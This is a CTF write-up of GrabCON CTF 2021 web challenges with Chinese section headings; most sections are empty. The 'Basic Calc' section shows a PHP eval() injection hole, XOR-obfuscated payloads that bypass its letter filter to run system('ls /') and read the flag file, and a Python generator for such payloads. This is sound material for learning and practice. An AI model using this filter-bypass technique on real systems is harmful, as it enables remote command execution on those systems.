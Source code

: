 # 原创
：  GrabCON CTF 2021 Web

# GrabCON CTF 2021 Web

#### GrabCON CTF 2021 Web

## E4sy Pe4sy

### 题目描述

> 



### 解题思路

> 



## Door Lock

### 题目描述

> 



### 解题思路

> 



## Basic Calc

### 题目描述

> 



### 解题思路

> 



```
&lt;h2&gt;Welcome to da Basic Calc&lt;/h2&gt;
&lt;form action="/" method="POST"&gt;
    Enter da equation : &lt;br&gt;
    &lt;input type="text" name="eq"&gt;&lt;br&gt;
&lt;/form&gt;

&lt;?php

if (isset($_POST["eq"])){
    
    $eq = $_POST["eq"];

    if(preg_match("/[A-Za-z`]+/",$eq)){
        die("BAD.");
    }
    echo "Result: ";
    eval("echo " . $eq . " ;");
}else{
  echo highlight_file('index.php',true);  
}

?&gt;

```

> 



> 



```
("system")("ls /")=(('3'^'@').('9'^'@').('3'^'@').('4'^'@').('8'^']').('2'^'_'))(('1'^']').('3'^'@').('^'^'~').'/')

```

> 



```
("system")("cat /flagggg.txt")=(('3'^'@').('9'^'@').('3'^'@').('4'^'@').('8'^']').('2'^'_'))(('8'^'[').('!'^'@').('4'^'@').('^'^'~').'/'.('8'^'^').('1'^']').('!'^'@').('8'^'_').('8'^'_').('8'^'_').('8'^'_').'.'.('4'^'@').('8'^'@').('4'^'@'))

```

> 



```
# string_code = ['system','ls /']
string_code = ['system','cat /flagggg.txt']
obfuscated_code = ""
charset = "1234567890!#$%&amp;'()*+/^,-.:;&lt;=&gt;?@[]_{|}~"

for code in string_code:
    obfuscated = ""
    for i in code:
        is_found_obfuscated = False
        for j in charset:
            for k in charset:
                if ord(j)^ord(k) == ord(i):
                    is_found_obfuscated = True
                    obfuscated += ".('%s'^'%s')" % (j, k)
                    #print("XOR ="+chr(ord(j)^ord(k)))
                if is_found_obfuscated:
                    break
            if is_found_obfuscated:
                break
        if not is_found_obfuscated:
            obfuscated += ".'%s'" % i
    #print("(%s) = (%s)" % (code, obfuscated[1:]))
    obfuscated_code += "(%s)" % obfuscated[1:]
print(''.join(["(\"%s\")" % i for i in string_code]) + '=' + obfuscated_code)

```

## Null Food Factory

### 题目描述

> 



### 解题思路

> 



> 


